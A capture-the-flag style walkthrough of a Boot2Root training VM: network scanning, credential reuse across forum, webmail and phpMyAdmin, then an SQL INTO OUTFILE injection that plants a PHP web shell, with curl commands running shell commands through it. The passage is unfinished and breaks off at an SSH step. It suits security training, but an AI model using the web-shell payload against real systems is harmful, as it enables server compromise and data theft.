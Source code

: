 # Find our IP

At first we should find our Ip address. Run `ip a` or `ifconfig` command in your shell
interpreter for this.  
Priority use `ip a` because this command show all IPs with its subnetwork address.

[comment]: <> (include print screen with command output)

# Scan our subnetwork

Our IP is `// input ip`. Then we scan our subnetwork, using `nmap <IP>`.  
Is recommended tune your Boot2Root VM with bridge network connection.

[comment]: <> (include print screen with command output)

Required IP will be marked by "Boot2Root Hack Me" string or will have only list
opened services such as:  
***ftp, ssh, http, imap, https, imaps***, - with its port.

So we see is opened *http* and *https* services we can scan its.

# Dirb

We want to find another web-resources hosted on this web-server.  
Use `dirb https://<IP> -r`

[comment]: <> (include print screen with command output)

Was found 3 web-sites:  
- forum
- webmail
- phpmyadmin

# Forum

Let's go to the forum. We see 4 posts there and one of it have name "Probleme login ?".  
We find log from ssh connection, opening this post.

Extract information with:

    `curl --insecure https://<IP>/forum/index.php?id=6 | grep 'invalid user'`

[comment]: <> (include print screen with command output)

We see string like a password typed instead of username:

[comment]: <> (include print screen with command output)

Try to connect via ssh `ssh lmezard@<IP>`

[comment]: <> (include print screen with command output)

Permission denied. Ok, try login on forum with same credentials. Well done!)  
Check lmezard's user profile.

[comment]: <> (include print screen with command output)

Copy his e-mail and go to webmail web-site.

# Mail

Try login with copied e-mail and password from forum.  
We was been accepted. There is 2 e-mails, opening both we can find credentials for connection to a DB.

# Php My Admin

Login there with login and password from previous step.  
It is main idea that we want to scan home directory in host machine. And we want create file with php script what can execute shell command.  
So login was done with root credentials, we can create this file, using SQL-injection.

But, at first, we should assign where we can do it. Use `dirsearch.py` script (it install from external github) for scan 3 given web-site.

[comment]: <> (include print screen with command output)

Then we should try to execute SQL-query (injection) into each folder. SQL-injection:

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '<PATH>/exec_shell.php'

We receive access reply only from `forum/templates_c` folder. Very well, now we can execute `ls -la` on the server.

    curl --insecure https://<IP>/forum/templates_c/exec_shell.php?cmd=cd%20/home;%20ls%20-la

[comment]: <> (include print screen with command output)

Use the same way scan "LOOKATME" folder:

[comment]: <> (include print screen with command output)

Open password file

[comment]: <> (include print screen with command output)

FTP service has been being started and by way of connection to it we can try to load some files from host.  
Let's try to connect via FTP.

# FTP (FIleZilla)

We find one archive "fun" and file "README" after connection via ftp. Load this files to our local machine.  
Extracted this archive we see 751 files there, each from its contain part of C program. Try to restore it with our script `restore.py`.

Compile got program and execute it.

[comment]: <> (include print screen with command output)

We get password from ssh connection, what is hashed by SHA256. Decode it, using next command:

    echo -n <PASSWD> | sha256sum // It's hash sum, need other command!

[comment]: <> (include print screen with command output)

Now let's try to connect via ssh